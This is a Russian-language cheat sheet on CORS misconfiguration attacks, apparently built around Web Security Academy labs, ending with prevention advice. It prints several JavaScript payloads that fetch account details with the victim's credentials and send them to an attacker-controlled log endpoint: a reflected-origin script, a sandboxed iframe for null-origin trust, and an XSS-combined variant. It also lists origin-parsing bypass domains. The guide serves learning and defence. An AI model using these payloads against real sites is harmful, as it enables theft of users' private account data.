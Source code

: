 # **CORS (client)**

> **Cross-origin resource sharing (CORS)** — это механизм браузера, который обеспечивает контролируемый доступ к ресурсам, расположенным за пределами заданного домена. Он расширяет и добавляет гибкости политике одного и того же источника (SOP). Однако он также предоставляет потенциал для cross-domain атак, если политика CORS веб-сайта плохо настроена и реализована. CORS не является защитой от cross-origin атак, таких как подделка межсайтовых запросов (CSRF).

> **Origin** — это адрес, с которого отправлен запрос. Он состоит из протокола, домена и порта. Его отправляют в заголовке HTTP-запроса.

> **Site** — он же «сайт» — это комбинация домена верхнего уровня и поддомена первого уровня. Проще говоря, корневой домен сайта.

> **Политика одного источника (SOP)** — это механизм безопасности веб-браузера, который направлен на предотвращение атак веб-сайтов друг на друга.

> Согласно SOP, скрипт с одного сайта может посылать POST- и GET-запросы на другой сайт. Но ответ он прочитать не сможет: у них разные origin, поэтому чтение ответа будет заблокировано на уровне браузера.
Остальные виды запросов — например, DELETE или PUT — SOP не пропустит в принципе. Они не дойдут до сервера.
SOP определяет права доступа на основе origin.

# **CORS и заголовки**

* **Access-Control-Allow-Origin**
	* Заголовок Access-Control-Allow-Origin включается в ответ одного веб-сайта на запрос, исходящий с другого веб-сайта, и определяет разрешенный источник запроса. Веб-браузер сравнивает Access-Control-Allow-Origin с источником запрашивающего веб-сайта и разрешает доступ к ответу, если они совпадают.
	* Спецификация Access-Control-Allow-Origin допускает несколько источников, или значение null, или подстановочный знак *. Однако ни один браузер не поддерживает несколько источников, и существуют ограничения на использование подстановочного знака *

* **Access-Control-Allow-Credentials**
  * Значение true - если запрашивающий веб-сайт использует JavaScript для объявления отправки файлов cookie с запросом, браузер разрешит запрашивающему веб-сайту прочитать ответ.


# Уязвимости, возникающие из-за проблем с конфигурацией CORS

* **Сгенерированный сервером заголовок ACAO из указанного клиентом заголовка Origin**

```
<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','YOUR-LAB-ID.web-security-academy.net/accountDetails',true);
    req.withCredentials = true;
    req.send();

    function reqListener() {
        location='/log?key='+this.responseText;
    };
</script>
```

* **Ошибки при анализе заголовков источника**

* Приложение предоставляет доступ ко всем доменам, заканчивающимся на
normal-website.com
```
Можно получить доступ, зарегистрировав домен:
hackersnormal-website.com
```

* Приложение предоставляет доступ ко всем доменам, начинающимся с
normal-website.com
```
Можно получить доступ, используя домен:
normal-website.com.evil-user.net
```

* **Белый список пустого источника**

Спецификация заголовка Origin поддерживает значение null. Браузеры могут отправлять значение null в заголовке Origin в различных необычных ситуациях:

* Перенаправления между источниками.
* Запросы из сериализованных данных.
* Запросы с использованием протокола file:.
* Запросы между источниками в изолированной среде.
  
```
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" srcdoc="<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','target-domain.net/accountDetails',true);
    req.withCredentials = true;
    req.send();
    function reqListener() {
        location='exploit-server.net/log?key='+encodeURIComponent(this.responseText);
    };
</script>"></iframe>
```
* **Эксплуатация XSS через доверительные отношения CORS**

* Если веб-сайт доверяет источнику, который уязвим для межсайтового скриптинга (XSS), можно использовать XSS для внедрения некоторого JavaScript, который использует CORS для получения конфиденциальной информации с сайта, который доверяет уязвимому приложению.

* **Взлом TLS с плохо настроенным CORS**

* Пользователь-жертва делает любой простой HTTP-запрос.

* Атакующий внедряет перенаправление на:
http://trusted-subdomain.vulnerable-website.com

* Браузер жертвы следует перенаправлению.

* Атакующий перехватывает простой HTTP-запрос и возвращает поддельный ответ, содержащий запрос CORS, на:
https://vulnerable-website.com

* Браузер жертвы отправляет запрос CORS, включая источник:
http://trusted-subdomain.vulnerable-website.com

* Приложение разрешает запрос, поскольку это источник из белого списка. Запрошенные конфиденциальные данные возвращаются в ответе.

* Поддельная страница атакующего может считывать конфиденциальные данные и передавать их на любой домен, находящийся под контролем атакующего.

Эта атака эффективна, даже если уязвимый веб-сайт в остальном надежно использует HTTPS, без конечной точки HTTP и все файлы cookie помечены как безопасные.
```
<script>
    document.location="http://victim-server.net/?productId=4<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://victim-server/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {location='https://my.exploit-server.net/log?key='%2bthis.responseText; };%3c/script>&storeId=1"
</script>
```
* **Интрасети и CORS без учетных данных**

Большинство атак CORS полагаются на наличие заголовка ответа:
Access-Control-Allow-Credentials: true

Когда cайт является частью интрасети организации и расположен в частном пространстве IP-адресов, нет возможности получить доступ к нему напрямую. Внутренние веб-сайты часто имеют более низкий стандарт безопасности, чем внешние сайты, что позволяет находить уязвимости и получать дополнительный доступ. 

* Например, запрос кросс-источника в частной сети может быть следующим:

GET /reader?url=doc1.pdf
Host: intranet.normal-website.com
Origin: https://normal-website.com

И сервер отвечает:
HTTP/1.1 200 OK
Access-Control-Allow-Origin: *

Сервер приложений доверяет запросам ресурсов из любого источника без учетных данных. 

Если пользователи в частном пространстве IP-адресов получают доступ к общедоступному Интернету, то атака на основе CORS может быть выполнена с внешнего сайта, который использует браузер жертвы в качестве прокси-сервера для доступа к ресурсам интрасети.

# Как предотвратить атаки на основе CORS

Уязвимости CORS возникают в первую очередь из-за неправильных конфигураций.

* Правильная настройка запросов кросс-источника
Если веб-ресурс содержит конфиденциальную информацию, источник должен быть правильно указан в заголовке Access-Control-Allow-Origin.
* Разрешать только доверенные сайты
Это может показаться очевидным, но источники, указанные в заголовке Access-Control-Allow-Origin, должны быть только доверенными сайтами. В частности, динамическое отражение источников из запросов кросс-источника без проверки легко эксплуатируется и его следует избегать.
* Избегайте внесения null в белый список
Избегайте использования заголовка Access-Control-Allow-Origin: null. Вызовы ресурсов кросс-источника из внутренних документов и изолированных запросов могут указывать на нулевой источник. Заголовки CORS должны быть правильно определены в отношении доверенных источников для частных и публичных серверов.
* Избегайте подстановочных знаков во внутренних сетях.
Избегайте использования подстановочных знаков во внутренних сетях. Доверия конфигурации сети для защиты внутренних ресурсов недостаточно, когда внутренние браузеры могут получать доступ к ненадежным внешним доменам.
* CORS не заменяет политики безопасности на стороне сервера
CORS определяет поведение браузера и никогда не заменяет защиту конфиденциальных данных на стороне сервера — злоумышленник может напрямую подделать запрос из любого доверенного источника. Поэтому веб-серверы должны продолжать применять защиту конфиденциальных данных, такую ​​как аутентификация и управление сеансами, в дополнение к правильно настроенному CORS.
